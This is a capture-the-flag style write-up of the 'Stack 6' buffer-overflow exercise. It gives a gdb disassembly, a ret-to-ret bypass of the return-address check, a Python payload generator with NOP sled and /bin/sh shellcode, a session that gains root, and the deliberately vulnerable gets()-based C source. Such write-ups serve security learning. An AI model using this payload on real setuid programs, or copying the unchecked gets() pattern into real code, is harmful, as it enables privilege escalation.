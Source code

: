 # Stack 6

## Problem

```gdb
info functions
>>>File stack6/stack6.c:
>>>void getpath(void);
>>>int main(int, char **);
```

We try to check what the function actually does and we realise that in `getpath+52`
there is some form of comparison with what looks like an address.

```gdb
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
End of assembler dump.
```

Running gdb with the breakpoint at that address will show us that if we try to stack overflow and try to inject another return address such that we run a shell code, the return address changed will be detected. This is because the location that we plan to target will reside above ebp addresses which would have to start with `0xbf000000`. We now have to come up with another way to return the function.

```gdb
esp            0xbffffc40       0xbffffc40
ebp            0xbffffca8       0xbffffca8
```

Since there is a check on the address, we want to bypass that check on the address we plan to inject. Recall that the `ret` call copies the address pointed to by esp to eip.

## Idea and Attack process

We first find the offset such that we can inject the address to hop back to `ret`. From the error we can work back to find that the offset if 80.

```gdb
./stack6
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
>>>Program received signal SIGSEGV, Segmentation fault.
>>>0x37634136 in ?? ()
```

We prepare the script to generate the attack below. We initially started with offsetting at $50$ but the script could only run successfully in gdb, and runs into `Illegal Instruction` when executing in shell. Looking a bit deeper, it could be that the offset is not placing the script with correct alignment in memory. We change the offset to be in multiple of 4s. We also increase the offset to a greater amount so that we avoid the chances of the code being truncated.

```python
import struct
filler = "1" * 80
addr_hop = struct.pack("I", 0x080484f9)
addr_code = struct.pack("I", 0xbffffca0+128)
nop = "\x90"*256
code =  "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print filler+addr_hop+addr_code+nop+code
```

Running the code below we see that we gain access into shell as root.

```bash
whoami
>>>user
vim stack6_py.py
python stack6_py.py > /tmp/payload
./stack6 < /tmp/payload
whoami
>>>root
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
